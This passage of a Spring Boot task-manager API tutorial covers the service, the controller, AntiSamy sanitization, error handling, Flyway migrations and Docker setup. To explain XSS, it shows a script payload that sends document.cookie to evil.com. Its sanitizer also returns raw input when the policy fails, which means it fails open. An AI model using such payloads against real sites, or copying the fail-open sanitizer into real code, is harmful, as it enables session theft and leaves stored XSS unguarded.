#### `createTask(TaskRequestDTO requestDto)`

```java
@Transactional
public TaskResponseDTO createTask(TaskRequestDTO requestDto) {
    // Step 1: Sanitize (strip XSS)
    sanitizeRequest(requestDto);

    // Step 2: Business rule — no duplicate active tasks with same title
    if (taskRepository.existsByHeaderAndCompletedFalse(requestDto.getTitle())) {
        throw new DuplicateTaskException("You already have an active task with this title!");
    }

    // Step 3: DTO → Entity → Save → Entity → DTO
    Task taskEntity = taskMapper.toEntity(requestDto);
    Task savedTask = taskRepository.save(taskEntity);
    return taskMapper.toDTO(savedTask);
}
```

**Why `@Transactional`?** If the `save()` succeeds but some subsequent operation fails, the entire database change is rolled back. It guarantees atomicity.

**Why sanitize before duplicate check?** Because `<script>Buy Groceries</script>` should be cleaned to `Buy Groceries` before checking if "Buy Groceries" already exists. If you checked first, the dirty title wouldn't match the clean one in the DB.

#### `updateTask(Long id, TaskRequestDTO requestDto)`

```java
@Transactional
public TaskResponseDTO updateTask(Long id, TaskRequestDTO requestDto) {
    sanitizeRequest(requestDto);

    Task existingTask = taskRepository.findById(id)
            .orElseThrow(() -> new TaskNotFoundException(id));

    // Mutate the existing entity (JPA dirty checking detects changes automatically)
    existingTask.setHeader(requestDto.getTitle());
    existingTask.setDescription(requestDto.getDescription());
    existingTask.setCompleted(requestDto.getCompleted());

    Task updatedTask = taskRepository.save(existingTask);
    return taskMapper.toDTO(updatedTask);
}
```

**Why mutate the existing entity instead of creating a new one?**
- JPA tracks the existing entity. Mutating it triggers **dirty checking** — Hibernate only updates the changed columns.
- The `@LastModifiedDate` auditing listener fires when the entity is modified.
- Creating a new entity and saving it would be an INSERT (duplicate key error), not an UPDATE.

#### `deleteTask(Long id)`

```java
@Transactional
public void deleteTask(Long id) {
    Task task = taskRepository.findById(id)
            .orElseThrow(() -> new TaskNotFoundException(id));
    taskRepository.delete(task);  // Triggers @SQLDelete → soft delete
}
```

The `delete()` call doesn't execute `DELETE FROM tasks`. Thanks to `@SQLDelete`, it runs:
```sql
UPDATE tasks SET deleted = true, deleted_at = NOW() WHERE id = ?
```

---

## 10. Controller Layer — `TaskController.java`

```java
@RestController                  // Every method returns JSON (no HTML views)
@RequestMapping("/api/tasks")    // Base URL prefix
@RequiredArgsConstructor         // Lombok: constructor injection
public class TaskController {

    private final TaskService taskService;
```

### `@RequiredArgsConstructor` — Constructor Injection via Lombok

Lombok generates:
```java
public TaskController(TaskService taskService) {
    this.taskService = taskService;
}
```

Spring sees this single constructor and automatically injects the `TaskService` bean. No `@Autowired` needed — **Spring Boot auto-detects single-constructor injection**.

### Pagination with `@PageableDefault`

```java
@GetMapping
public ResponseEntity<Page<TaskResponseDTO>> getAllTasks(
        @RequestParam(required = false) String title,
        @RequestParam(required = false) Boolean completed,
        @PageableDefault(size = 10, sort = "header") Pageable pageable) {
```

| URL | Effect |
|---|---|
| `GET /api/tasks` | Page 0, size 10, sorted by header (default) |
| `GET /api/tasks?page=2&size=5` | Page 2, size 5, sorted by header |
| `GET /api/tasks?sort=completed,desc` | Sorted by completed descending |
| `GET /api/tasks?title=buy&completed=false` | Filtered by title LIKE '%buy%' and completed=false |

### Return Types: When to Use `ResponseEntity`

| Method | Return Type | Why |
|---|---|---|
| `getAllTasks` | `ResponseEntity<Page<TaskResponseDTO>>` | Need to explicitly return `200 OK` with a Page |
| `getTaskById` | `TaskResponseDTO` | Spring auto-wraps in `200 OK` |
| `createTask` | `TaskResponseDTO` | Spring auto-wraps in `200 OK` |
| `deleteTask` | `ResponseEntity<Void>` | Need to return `204 No Content` (no body) |

---

## 11. Input Sanitization — `SanitizationService.java`

### The XSS Problem

Without sanitization:
```json
POST /api/tasks
{
  "title": "<script>document.location='http://evil.com/steal?c='+document.cookie</script>Buy Groceries",
  "completed": false
}
```

This malicious script gets stored in the database. If any frontend renders it, the user's cookies are stolen.

### The AntiSamy Solution

AntiSamy uses a **policy file** (`antisamy-slashdot.xml`) that defines allowed HTML tags. The `slashdot` policy is the strictest — it strips essentially all HTML:

```
Input:  "<script>alert('x')</script>Buy groceries"
Output: "Buy groceries"

Input:  "Buy groceries"
Output: "Buy groceries"  (unchanged — clean input passes through)

Input:  null
Output: null              (null/blank are returned as-is)
```

### Graceful Degradation

```java
public String sanitize(String input) {
    if (input == null || input.isBlank()) return input;     // Guard: null-safe
    if (policy == null) { /* log warning */ return input; } // Guard: policy failed to load
    try {
        return antiSamy.scan(input, policy).getCleanHTML();
    } catch (Exception e) {
        /* log error */
        return input;  // Better to store raw data than crash the request
    }
}
```

The service never throws. If the sanitization engine itself fails (corrupted policy, unexpected input), it logs an error and returns the original input. This is a **graceful degradation** strategy — prefer availability over strictness.

---

## 12. Exception Handling — Global Exception Handler

### Exception Routing Flow



```java
@RestControllerAdvice  // = @ControllerAdvice + @ResponseBody
public class GlobalExceptionHandler { ... }
```

`@RestControllerAdvice` is a global interceptor. When any controller throws an exception, Spring routes it here instead of returning a default whitelabel error page.

### Exception → HTTP Status Mapping

| Exception | Handler Method | HTTP Status | When |
|---|---|---|---|
| `TaskNotFoundException` | `handleTaskNotFound` | `404 Not Found` | `findById` returns empty |
| `MethodArgumentNotValidException` | `handleValidationErrors` | `400 Bad Request` | `@Valid` fails |
| `DuplicateTaskException` | `handleDuplicateTask` | `409 Conflict` | Same active title exists |
| `IllegalArgumentException` | `handleBadRequest` | `400 Bad Request` | Invalid arguments |
| `Exception` (catch-all) | `handleGeneric` | `500 Internal Server Error` | Anything else |

### Error Response Format

Every error returns a consistent JSON structure:

```json
{
  "status": 400,
  "error": "Bad Request",
  "message": "Validation failed for one or more fields",
  "errors": {
    "title": "Title is required",
    "completed": "Completion status must be specified"
  },
  "timestamp": "2026-03-04T10:30:00"
}
```

The `errors` map is only present for validation failures. For other errors, only `status`, `error`, `message`, and `timestamp` are returned.

### Why Never Expose Internal Details in 500 Errors

```java
@ExceptionHandler(Exception.class)
public ResponseEntity<ErrorResponse> handleGeneric(Exception ex) {
    ErrorResponse error = new ErrorResponse(
        500, "Internal Server Error",
        "Something went wrong. Please try again later."  // ← Generic message
        // NEVER: ex.getMessage() — could contain SQL, stack traces, internal paths
    );
}
```

Exposing `ex.getMessage()` in a 500 response could leak:
- Database table/column names
- SQL query fragments
- Internal class paths
- Stack trace details

Attackers use this information for reconnaissance.

---

## 13. Configuration Classes

### `JpaConfig.java`

```java
@Configuration
@EnableJpaAuditing  // Activates @CreatedDate / @LastModifiedDate processing
public class JpaConfig { }
```

Without `@EnableJpaAuditing`, the `@CreatedDate` and `@LastModifiedDate` annotations on `Task` would be silently ignored — timestamps would always be `null`.

### `FlywayConfig.java`

```java
@Configuration
public class FlywayConfig {

    @Bean(initMethod = "migrate")
    public Flyway flyway(DataSource dataSource) {
        return Flyway.configure()
                .dataSource(dataSource)
                .baselineOnMigrate(true)
                .locations("classpath:db/migration")
                .load();
    }
}
```

**Why explicit config instead of auto-configuration?** This gives explicit control over Flyway's behaviour, including `baselineOnMigrate(true)` which lets Flyway work even when added to an existing database with pre-existing tables.

---

## 14. Database Migrations — Flyway

### Migration Evolution Timeline



### How Flyway Runs on Application Startup



Flyway manages the database schema through versioned SQL files:

```
src/main/resources/db/migration/
├── V1__init_schema.sql          ← Creates the tasks table
├── V2__add_soft_delete.sql      ← Adds the deleted column + index
└── V3__Add_audit_fields.sql     ← Adds created_at, last_modified_at, deleted_at
```

### Naming Convention

```
V1__init_schema.sql
│ │  └─ Description (underscores for spaces)
│ └──── Double underscore separator
└────── Version number (must be sequential)
```

### Migration History

Flyway creates a `flyway_schema_history` table in the database:

| Version | Description | Checksum | Installed On |
|---|---|---|---|
| 1 | init schema | -123456 | 2026-01-15 |
| 2 | add soft delete | -789012 | 2026-01-20 |
| 3 | Add audit fields | -345678 | 2026-02-01 |

**Once a migration is applied, it must never be modified.** Flyway checksums each file. If you change an already-applied migration, Flyway will refuse to start.

### V1 — Initial Schema

```sql
CREATE TABLE tasks (
    id BIGSERIAL PRIMARY KEY,          -- PostgreSQL auto-incrementing 64-bit integer
    title VARCHAR(100) NOT NULL,
    description VARCHAR(500),
    completed BOOLEAN DEFAULT FALSE NOT NULL
);

ALTER TABLE tasks ADD CONSTRAINT uc_task_title UNIQUE (title);
```

### V2 — Soft Delete

```sql
ALTER TABLE tasks ADD COLUMN deleted BOOLEAN DEFAULT FALSE NOT NULL;
CREATE INDEX idx_tasks_deleted ON tasks(deleted);  -- Performance: most queries filter by deleted
```

### V3 — Audit Fields

```sql
ALTER TABLE tasks ADD COLUMN created_at TIMESTAMP NOT NULL DEFAULT CURRENT_TIMESTAMP;
ALTER TABLE tasks ADD COLUMN last_modified_at TIMESTAMP;
ALTER TABLE tasks ADD COLUMN deleted_at TIMESTAMP;
```

---

## 15. Docker Setup

### Infrastructure Diagram



### Development Database — `docker-compose.yml`

```yaml
services:
  db:
    image: postgres:16
    container_name: postgres
    environment:
      POSTGRES_USER: docker
      POSTGRES_PASSWORD: docker
      POSTGRES_DB: taskdb
    ports:
      - "5432:5432"         # Host port 5432 → Container port 5432
```

### Test Database — `docker-compose-test.yml`

```yaml
services:
  db:
    image: postgres:16
    container_name: postgres-test
    environment:
      POSTGRES_USER: docker
      POSTGRES_PASSWORD: docker
      POSTGRES_DB: taskdb
    ports:
      - "5433:5432"         # Host port 5433 → Container port 5432 (different port!)
```

**Why separate databases?** Tests may truncate tables, insert test data, and run Flyway `clean`. Running tests against the dev database would destroy your development data.

### Usage

```bash
# Start dev database
docker-compose up -d

# Start test database (separate container, different port)
docker-compose -f docker-compose-test.yml up -d

# Run the application (connects to port 5432)
./gradlew bootRun

# Run tests (connects to port 5433)
./gradlew test
```

---

## 16. Application Configuration — YAML

### Main Configuration (`src/main/resources/application.yaml`)

```yaml
spring:
  datasource:
    url: jdbc:postgresql://localhost:5432/taskdb
    username: ${DB_USERNAME:docker}    # Environment variable with default
    password: ${DB_PASSWORD:docker}

  jpa:
    hibernate:
      ddl-auto: validate              # Validate schema matches entities, don't modify

  flyway:
    enabled: true
    baseline-on-migrate: true

  threads:
    virtual:
      enabled: true                   # Java 25 Virtual Threads for Tomcat
```

### `${DB_USERNAME:docker}` Syntax

This is a Spring expression:
- Look for environment variable `DB_USERNAME`
- If not found, use `"docker"` as default
- In production: set `DB_USERNAME=prod_user` in the environment
- In development: the default `docker` matches the Docker Compose config

### `ddl-auto` Options

| Value | Meaning | Use Case |
|---|---|---|
| `none` | Don't touch the schema | Production (Flyway manages it) |
| `validate` | Check entity ↔ schema match, fail if mismatch | Production (extra safety check) |
| `update` | Auto-alter tables to match entities | ⚠️ Never in production |
| `create-drop` | Drop & recreate on every startup | Tests only |

### Test Configuration (`src/test/resources/application.yaml`)

```yaml
spring:
  datasource:
    url: jdbc:postgresql://localhost:5433/taskdb    # ← Port 5433 (test container)
  jpa:
    hibernate:
      ddl-auto: none                                 # ← Flyway manages schema
server:
  port: 0                                            # ← Random port for tests
```

---

## 17. Testing Strategy

### Test Coverage Map — Who Tests What?



### Test Pyramid

```
                 ┌──────────┐
                 │ @Spring  │  TaskManagerApplicationTests (smoke test)
                 │ BootTest │  TaskMapperTest (mapper with Spring context)
                 └──────────┘
               ┌──────────────┐
               │  Unit Tests  │  TaskServiceTest (Mockito)
               │  (MockMvc)   │  TaskControllerTest (standalone MockMvc)
               └──────────────┘
          ┌────────────────────────┐
          │   Pure Unit Tests      │  SanitizationServiceTest
          │   (No Spring context)  │  GlobalExceptionHandlerTest
          │                        │  TaskSpecificationsTest
          │                        │  ErrorResponseTest, DTOTest, TaskTest
          │                        │  TaskNotFoundExceptionTest, etc.
          └────────────────────────┘
```

### Test Categories

| Test Class | Type | Spring Context? | Database? | What It Tests |
|---|---|---|---|---|
| `TaskControllerTest` | Unit (MockMvc) | ❌ | ❌ | HTTP status codes, JSON shapes, validation errors |
| `TaskServiceTest` | Unit (Mockito) | ❌ | ❌ | Business logic, sanitization ordering, duplicate check |
| `TaskMapperTest` | Integration | ✅ (DB excluded) | ❌ | MapStruct field mappings, expression evaluations |
| `SanitizationServiceTest` | Unit | ❌ | ❌ | XSS stripping, null handling, policy failure modes |
| `GlobalExceptionHandlerTest` | Unit | ❌ | ❌ | Exception → ErrorResponse mapping |
| `TaskSpecificationsTest` | Unit (Mockito) | ❌ | ❌ | JPA Criteria predicates |
| `TaskManagerApplicationTests` | Integration | ✅ | ✅ (real Postgres) | Full context smoke test + Flyway migrations |
| `ErrorResponseTest` | Unit | ❌ | ❌ | Constructor, builder, all fields |
| `TaskDTOTest` | Unit | ❌ | ❌ | Lombok-generated code coverage |
| `TaskTest` | Unit | ❌ | ❌ | Entity builder, @Builder.Default |
| `TaskNotFoundExceptionTest` | Unit | ❌ | ❌ | Message format |
| `DuplicateTaskExceptionTest` | Unit | ❌ | ❌ | Message preservation |

### Jackson 3.x in Spring Boot 4.x

Spring Boot 4.0.3 ships with **Jackson 3.x** (`tools.jackson.core:jackson-databind:3.0.4`). The package moved from `com.fasterxml.jackson` to `tools.jackson`. In test code:

```java
import tools.jackson.databind.ObjectMapper;  // NOT com.fasterxml.jackson
```

This only affects tests that manually create `ObjectMapper`. Spring's internal `MockMvc` handles serialisation automatically.

---

## 18. Request Lifecycle — End-to-End Walkthrough

### Sequence Diagram — `POST /api/tasks`



### Sequence Diagram — `DELETE /api/tasks/{id}` (Soft Delete)



### `POST /api/tasks` — Creating a Task

```
Client sends:
{
  "title": "<b>Buy Groceries</b>",
  "description": "Milk and eggs",
  "completed": false
}

     ┌─────────────────────────────────────────────────────────────┐
  1. │ Tomcat receives HTTP request                                 │
     │ Spring MVC matches @PostMapping → TaskController.createTask  │
     └────────────────────┬────────────────────────────────────────┘
                          │
  2. │ @Valid triggers Bean Validation                              │
     │ @NotBlank on title? ✅ (not blank)                           │
     │ @Size(min=3,max=100)? ✅ (17 chars)                         │
     │ @NotNull on completed? ✅ (false ≠ null)                     │
     │ If validation FAILS → MethodArgumentNotValidException → 400  │
     └────────────────────┬────────────────────────────────────────┘
                          │
  3. │ TaskService.createTask(requestDto)                           │
     │ Step 1: sanitizeRequest() → AntiSamy strips <b> tags        │
     │   title: "<b>Buy Groceries</b>" → "Buy Groceries"           │
     │   description: "Milk and eggs" → "Milk and eggs" (unchanged) │
     └────────────────────┬────────────────────────────────────────┘
                          │
  4. │ Step 2: Duplicate check                                     │
     │ existsByHeaderAndCompletedFalse("Buy Groceries") → false    │
     │ If true → DuplicateTaskException → 409 Conflict              │
     └────────────────────┬────────────────────────────────────────┘
                          │
  5. │ Step 3: taskMapper.toEntity(requestDto)                     │
     │ TaskRequestDTO { title="Buy Groceries" }                     │
     │   → Task { header="Buy Groceries", id=null, deleted=false }  │
     └────────────────────┬────────────────────────────────────────┘
                          │
  6. │ Step 4: taskRepository.save(taskEntity)                     │
     │ INSERT INTO tasks (title, description, completed, deleted,   │
     │   created_at) VALUES ('Buy Groceries', 'Milk and eggs',      │
     │   false, false, NOW())                                       │
     │ Returns Task { id=1, header="Buy Groceries", ... }           │
     └────────────────────┬────────────────────────────────────────┘
                          │
  7. │ Step 5: taskMapper.toDTO(savedTask)                         │
     │ Task { id=1, header="Buy Groceries", completed=false }       │
     │   → TaskResponseDTO { id=1, title="Buy Groceries",           │
     │     completed=false, completionStatus="PENDING" }            │
     └────────────────────┬────────────────────────────────────────┘
                          │
  8. │ Jackson serialises TaskResponseDTO → JSON response           │
     │ HTTP 200 OK                                                  │
     └─────────────────────────────────────────────────────────────┘

Response:
{
  "id": 1,
  "title": "Buy Groceries",
  "description": "Milk and eggs",
  "completed": false,
  "completionStatus": "PENDING",
  "createdAt": "2026-03-04T10:30:00",
  "lastModifiedAt": "2026-03-04T10:30:00"
}
```

---

## 19. Key Design Decisions & Trade-offs

### 1. Soft Delete vs Hard Delete

| | Soft Delete (this project) | Hard Delete |
|---|---|---|
| SQL | `UPDATE SET deleted=true` | `DELETE FROM` |
| Recovery | ✅ Restore by setting `deleted=false` | ❌ Data is gone |
| Audit trail | ✅ `deleted_at` timestamp preserved | ❌ No trace |
| DB size | ⚠️ Grows over time (rows never removed) | ✅ Smaller |
| Query complexity | ⚠️ Must filter `deleted=false` everywhere | ✅ Simpler |
| Unique constraints | ⚠️ Soft-deleted title still blocks new ones | ✅ Natural |

### 2. `@Getter/@Setter` vs `@Data` for JPA Entities

`@Data` generates `equals()` and `hashCode()` that include all fields, including `id`. This breaks JPA because:
- Before `save()`: `id = null` → hashCode = X
- After `save()`: `id = 1` → hashCode = Y
- Same object, different hashCode → breaks `Set` and `Map` collections

`@Getter/@Setter` is safer for JPA entities.

### 3. `Boolean` Wrapper vs `boolean` Primitive for Validation

As explained in [Section 5](#5-dtos--request--response-separation), using the wrapper type `Boolean` allows `@NotNull` validation to distinguish between "client sent false" and "client didn't send the field at all".

### 4. Field Name Mismatch (header ↔ title)

This is an intentional teaching pattern. In real projects, you'll encounter legacy databases where the column name doesn't match the Java convention. The `@Column(name = "title")` and `@Mapping(source = "header", target = "title")` annotations show how to handle this cleanly.

### 5. Sanitization in Service Layer (not DTO or Controller)

| Location | Pros | Cons |
|---|---|---|
| Controller | Close to input | Mixes HTTP concerns with security |
| DTO (constructor/setter) | Always applied | Breaks testability, hides side effects |
| **Service (current)** | Clean separation, testable, single responsibility | Must remember to call it |
| AOP/Interceptor | Automatic, DRY | Complex, hard to debug |

---

## 20. Annotation Reference

### Spring Framework

| Annotation | Purpose |
|---|---|
| `@SpringBootApplication` | Combines `@Configuration` + `@EnableAutoConfiguration` + `@ComponentScan` |
| `@RestController` | `@Controller` + `@ResponseBody` — every method returns JSON |
| `@RequestMapping("/api/tasks")` | URL prefix for all methods in the class |
| `@GetMapping` / `@PostMapping` / `@PutMapping` / `@DeleteMapping` | HTTP method handlers |
| `@PathVariable` | Extracts `{id}` from URL: `/api/tasks/{id}` |
| `@RequestParam` | Extracts query parameters: `?title=buy` |
| `@RequestBody` | Deserialises JSON body → Java object |
| `@Valid` | Triggers Bean Validation on the parameter |
| `@PageableDefault` | Default pagination parameters |
| `@Service` | Marks as a Spring-managed service bean |
| `@Repository` | Marks as a Spring-managed repository bean |
| `@Configuration` | Marks as a Spring configuration class |
| `@Bean` | Declares a method that returns a Spring-managed bean |
| `@Transactional` | Wraps method in a database transaction |
| `@RestControllerAdvice` | Global exception handler for all controllers |
| `@ExceptionHandler` | Catches specific exception types |
| `@RequiredArgsConstructor` | Lombok: constructor for all `final` fields (enables DI) |

### JPA / Hibernate

| Annotation | Purpose |
|---|---|
| `@Entity` | Maps class to a database table |
| `@Table(name = "tasks")` | Explicit table name |
| `@Id` | Primary key field |
| `@GeneratedValue(strategy = IDENTITY)` | Auto-increment (PostgreSQL BIGSERIAL) |
| `@Column(name, nullable, unique, length)` | Column mapping and constraints |
| `@SQLDelete(sql = "...")` | Overrides DELETE with custom SQL (soft delete) |
| `@SQLRestriction("deleted = false")` | Auto-appends WHERE clause to all queries |
